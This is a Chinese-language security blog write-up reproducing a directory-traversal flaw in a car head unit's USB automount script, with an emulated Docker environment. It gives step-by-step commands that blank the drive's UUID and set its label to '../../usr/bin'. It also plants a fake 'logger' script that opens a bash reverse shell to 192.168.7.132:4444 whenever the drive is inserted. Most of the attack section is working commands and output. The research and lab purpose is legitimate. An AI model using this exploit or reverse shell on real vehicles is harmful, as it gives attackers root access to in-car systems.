

U盘目录穿越获取车机 SHELL（含模拟环境）
U盘目录穿越获取车机SHELL（含模拟环境）
利用 U 盘 Getshell 是不是还停留在 Badusb、病毒U盘上，这次就来看一个不一样的。
前段时间在浏览 Github 中看到了一个日产车机破解 项目，其中有利用 U 盘获取车机 SHELL 的骚操作。感觉挺有意思的，花了点时间找到了车机固件，并复现了漏洞。顺手写了一个 Dockerfile 供大家一起玩耍。
目录穿越
目录穿越大多发生在 WEB 中，没想到竟然还能出现在硬件设备中。
车机的操作系统为 Linux，U 盘等外设热插拔由 udev 实现。udev 是 Linux 内核的设备管理器，配置文件在 /etc/udev 下 。udev 会根据设备的 UUID 和 LABEL，构造挂载点。UUID 是块设备的唯一标识符，LAEBL 是块设备的一个标签。
车机中自定义了 U 盘挂载脚本，在 udev 配置文件 /etc/udev/rules.d/local.rules 中指定 block 设备由脚本 /etc/udev/scripts/mount.sh处理。
1 | SUBSYSTEM=="block", ACTION=="add", KERNEL=="sd*", ENV{ID_FS_TYPE}=="?*", \ |
问题就出现mount.sh 脚本中，使用 ../../可实现路径穿越，获取系统权限。
1 | MOUNT="/bin/mount" |
现在来详细看一下自动挂载函数 automount，首先判断U盘的文件系统 ID_FS_TYPE，可识别就继续执行，否则就退出。接下来的一段是用来拼接构造挂载点的，首先判断设备的 UUID，然后判断设备的 LABEL，哪一个不为空就用哪一个作为设备挂载的文件名，再拼接上 /dev/media 就是形成了最终的挂载点。最后使用 mount 命令将 U盘挂载到刚才构造的这个路径上。
问题就出在挂载路径上，由于设备的 UUID 和 LABEL 都是能手动修改的。如果在 $mountdir 中引入相对路径，那就能实现路径穿越。然后通过路径穿越劫持系统中的程序，从而实现任意命令执行。UUID 中不能使用点号，所以就只能在 LABEL 上作文章了。接着往下看脚本。
1 | status=$? |
U 盘挂载好之后，还会调用 logger 命令。那就骚操作就来了，将 UUID 设置为空，LABEL 设置为 ../usr/bin就能劫持原来的 /usr/bin/下的应用程序。logger 是一个不错的选择，在其中写入命令。U 盘自动挂载时，就会自动执行。下面来看看具体怎么利用。
漏洞利用
首先准备一个 EXT4 格式的 U 盘。
blkid 命令用于查看设备的UUID、LABEL等信息。为什么没有看到设备的 LABEL 呢？ 当某个属性为空时就会隐藏。
1 | root@kali:~/automotive#blkid /dev/sdb1 |
EXT4 格式的 U 盘默认状态下，只有UUID，LABEL 为空。这两个值都可以使用 tune2fs 修改。
置空 UUID
1
2
3
4root@kali:~/automotive# tune2fs -U NULL /dev/sdb1
tune2fs 1.46.2 (28-Feb-2021)
Setting the UUID on this filesystem could take some time.
Proceed anyway (or wait 5 seconds to proceed) ? (y,N) y设置 LABEL
1
2
3root@kali:~/automotive# tune2fs -L "../../usr/bin" /dev/sdb1
tune2fs 1.46.2 (28-Feb-2021)UUID 和 LABEL 修改完成，使用 blkid 查看修改后的结果，准确无误。
1
2root@kali:~/automotive# blkid /dev/sdb1
/dev/sdc1: LABEL="../../usr/bin" BLOCK_SIZE="4096" TYPE="ext4"设置反弹 shell
手动挂载 U 盘，在 U 盘中创建一个名为 logger 的 shell 脚本，内容为反弹 shell 。一切设置好之后移除 U 盘。
1
2
3
4
5
6
7
8
9root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# cd /media/root
root@kali:/media/root# cat logger
/bin/bash -i >& /dev/tcp/192.168.7.132/4444 0>&1
root@kali:/media/root# chmod +x logger
root@kali:/media/root# cd -
root@kali:~/automotive# umount /dev/sdb1将特制的 U 盘插入模拟车机
手里并没有日产的车（PS. 我与 Tesla 漏洞就相距一台 Tesla），而此时手痒怎么办。幸好我找到了固件，搭建了一个模拟环境。
下载之前制作好的 Dockerfile，然后使用docker build、docker run 搭建起车机模拟环境。
1
2
3
4
5
6
7
8
9
10root@kali:~/automotive# wget https://raw.githubusercontent.com/delikely/VulnerableFiles/main/Automotive/bosch%20headunit%20root/Dockerfile
root@kali:~/automotive# docker build -t delikely/bosch_headunit_root:automount .
Sending build context to Docker daemon 86.02kB
Step 1/4 : FROM ubuntu:12.04
---> 5b117edd0b76
Step 2/4 : WORKDIR /etc/
---> Using cache
---> 22a68ab4c71d
root@kali:~/automotive# docker run -itd --privileged=true _headunit_root:automount
ee7059240fcea0e24bb01ebdbde51be1198f15b452af42f101307f8684使用上述命令创建好 Docker 后，虚拟车机就运行起来了。现在只需要插入之前准备好的 U 盘就能拿到反弹 Shell。

注：由于劫持了 /usr/bin/ 目录，很多命令不能用了。若想使用，那就得提前准备，把原来/usr/bin 目录的文件（或相同架构的可执行文件）拷贝到 U 盘根目录。
总结
这个漏洞还挺有意思的，利用 U 盘 LABEL 目录遍历劫持 /usr/bin 执行任意命令。之前看过另外一个 Ubuntu 提权漏洞：利用软件链接提权，也让人直呼精彩。这次学到了新姿势，还搭建智能网联车漏洞的第一个模拟环境。后期会持续维护（新增）车联网漏洞模拟环境，欢迎有兴趣的小伙伴一起共建。